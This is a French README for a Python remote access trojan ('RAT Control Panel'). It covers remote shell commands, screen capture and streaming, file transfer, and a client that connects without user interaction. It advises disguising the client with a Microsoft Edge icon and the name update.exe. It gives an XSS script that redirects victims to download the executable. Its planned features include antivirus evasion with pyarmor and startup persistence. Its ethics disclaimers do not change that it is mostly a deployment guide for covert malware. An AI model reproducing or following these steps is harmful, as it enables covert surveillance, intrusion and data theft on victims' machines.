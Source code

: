 🐀 RAT Control Panel

Bienvenue dans RAT Control Panel, un outil éducatif de Remote Administration Tool (RAT) conçu pour les environnements de test de sécurité, les compétitions CTF, ou les laboratoires d'apprentissage. Ce projet fournit un serveur, un client, et une interface graphique intuitive pour exécuter des commandes à distance, capturer des écrans, diffuser en temps réel, et plus encore, avec une touche de discrétion grâce à la personnalisation des icônes.

⚠️ Avertissement : Cet outil est destiné à un usage éthique et autorisé uniquement. L'utilisation non autorisée est illégale. Veillez à respecter les lois et à obtenir un consentement explicite avant tout déploiement.


✨ Fonctionnalités

Exécution de commandes à distance : Lancez des commandes shell sur le client (ex. whoami, dir).
Capture d'écran : Prenez des instantanés de l'écran du client, enregistrés en JPEG.
Streaming en temps réel : Diffusez l'écran du client avec un faible décalage (10 FPS).
Transfert de fichiers : Téléchargez ou envoyez des fichiers entre le serveur et le client.
Chiffrement sécurisé : Toutes les communications sont chiffrées avec cryptography (Fernet).
Interface graphique : Une UI conviviale (tkinter) pour démarrer le serveur, configurer l'IP, et compiler le client.
Personnalisation discrète : Compilez le client avec une icône personnalisée (à partir de .png) pour plus de discrétion.
Connexion automatique : Le client se connecte directement au serveur sans interaction utilisateur.


🛠️ Prérequis
Avant de commencer, assurez-vous d'avoir :



Prérequis
Description



Python 3.8+
Téléchargez depuis python.org.


Système d'exploitation
Windows (client et serveur nécessitent un environnement graphique).


Réseau
Port 4444 ouvert sur le serveur, avec port forwarding si nécessaire.


Image .png
Une icône (32x32 ou 64x64 pixels) pour personnaliser l'exécutable du client.



📦 Installation
Suivez ces étapes pour configurer le projet :

Cloner le projet (ou téléchargez les fichiers) :
```bash
git clone 
cd rat-control-panel
```

Installer les dépendances :Exécutez la commande suivante pour installer toutes les bibliothèques nécessaires :
pip install Pillow opencv-python cryptography pyinstaller


💡 tkinter est inclus avec Python. Si vous rencontrez des erreurs, vérifiez votre installation Python.


Préparer les fichiers :

Placez ui.py, server.py, et client.py dans le même dossier.
Obtenez une image .png pour l'icône (par exemple, téléchargez depuis IconArchive ou créez-en une avec GIMP).


Configurer le réseau :

Ouvrez le port 4444 sur le serveur :netsh advfirewall firewall add rule name="RAT" dir=in action=allow protocol=TCP localport=4444


Si vous utilisez une IP publique, configurez le port forwarding sur votre routeur.




🚀 Utilisation
1. Lancer l'interface graphique
Exécutez l'interface pour configurer et contrôler le RAT :
python ui.py

L'interface affiche :

Un champ pour entrer l'adresse IP du serveur.
Un bouton pour démarrer le serveur.
Un bouton pour importer une icône (.png).
Un bouton pour compiler le client.
Une zone de logs pour suivre les actions.

2. Démarrer le serveur

Cliquez sur "Démarrer le serveur" dans l'interface.
Les logs affichent :Serveur démarré sur 0.0.0.0:4444
Adresses IP locales : 192.168.1.100, ...


Notez l'IP affichée (par exemple, 192.168.1.100) pour l'étape suivante.

3. Configurer l'adresse IP

Dans le champ Adresse IP du serveur, entrez l'IP notée (par exemple, 192.168.1.100).
Si vous utilisez une IP publique, assurez-vous que le port 4444 est accessible.

4. Importer une icône

Cliquez sur "Importer une icône (.png)".
Sélectionnez un fichier .png (idéalement 32x32 ou 64x64 pixels).
L'interface convertit automatiquement le .png en .ico et affiche :Icône importée et convertie : edge.png -> temp_icon.ico




💡 Utilisez une icône légitime (par exemple, Microsoft Edge, Word) pour rendre l'exécutable discret.

5. Compiler le client

Cliquez sur "Compiler le client".
L'interface :
Met à jour client.py avec l'IP saisie.
Compile client.py en dist/client.exe avec PyInstaller, en utilisant l'icône importée.
Supprime le fichier .ico temporaire.


Les logs confirment :client.py modifié avec SERVER_HOST = 192.168.1.100
Compilation réussie. Exécutable généré dans dist/client.exe



6. Tester le client

Copiez dist/client.exe sur un PC client (Windows avec interface graphique).
Exécutez :client.exe


L'exécutable affiche l'icône personnalisée et se connecte automatiquement au serveur.
Sur le serveur, entrez des commandes dans la console (ouverte automatiquement) :whoami
screenshot
stream


screenshot : Enregistre received_screenshot.jpg.
stream : Affiche l'écran du client en temps réel (appuyez sur q pour arrêter).



7. Déploiement via XSS (optionnel)
Pour distribuer client.exe via une vulnérabilité XSS (dans un cadre éthique) :

Hébergez client.exe :python -m http.server 8080


Injectez via XSS :<script>
    window.location = 'http://votre-serveur:8080/client.exe';
</script>


L'icône personnalisée rend l'exécutable plus convaincant (par exemple, renommez-le update.exe).


⚠️ Restez dans un cadre légal (CTF, bug bounty). L'utilisation non autorisée est illégale.


📋 Exemple de logs dans l'UI
Thu May 15 17:00:00 2025: Démarrage du serveur...
Thu May 15 17:00:01 2025: Serveur démarré sur 0.0.0.0:4444
Thu May 15 17:00:05 2025: Connexion de 192.168.1.98:54321
Thu May 15 17:00:10 2025: Icône importée et convertie : edge.png -> temp_icon.ico
Thu May 15 17:00:15 2025: client.py modifié avec SERVER_HOST = 192.168.1.100
Thu May 15 17:00:20 2025: Compilation réussie. Exécutable généré dans dist/client.exe


🐞 Dépannage



Problème
Solution



Serveur ne démarre pas
Vérifiez que server.py est dans le dossier. Installez les dépendances : pip install Pillow opencv-python cryptography.


Client ne se connecte pas
Vérifiez l'IP saisie. Testez : ping 192.168.1.100 et nc -zv 192.168.1.100 4444.


Icône non appliquée
Assurez-vous d'importer un .png valide. Testez : python -c "from PIL import Image; Image.open('edge.png').show()".


Compilation échoue
Installez PyInstaller : pip install pyinstaller. Vérifiez les logs pour l'erreur.


Streaming/screenshot échoue
Exécutez le client sur un bureau Windows. Testez : python -c "from PIL import ImageGrab; ImageGrab.grab()".



⚖️ Considérations éthiques

Usage autorisé uniquement : Utilisez ce RAT dans des environnements contrôlés (CTF, labs de sécurité).
Légalité : Déployer un RAT sans consentement est illégal. Obtenez toujours une autorisation explicite.
Responsabilité : Signalez les vulnérabilités XSS de manière éthique via des programmes de bug bounty.


🌟 Améliorations futures

Ajouter un bouton pour arrêter le serveur depuis l'UI.
Implémenter l'obfuscation du client avec pyarmor pour éviter la détection antivirus.
Ajouter la persistance (exécution au démarrage) dans l'exécutable client.
Supporter d'autres formats d'image (.jpg, .bmp) pour les icônes.


🙏 Crédits
Développé avec ❤️ pour l'apprentissage de la cybersécurité. Merci à la communauté open-source pour les bibliothèques utilisées :

Pillow
OpenCV
Cryptography
PyInstaller


📧 Pour toute question ou suggestion, ouvrez une issue sur le dépôt GitHub !

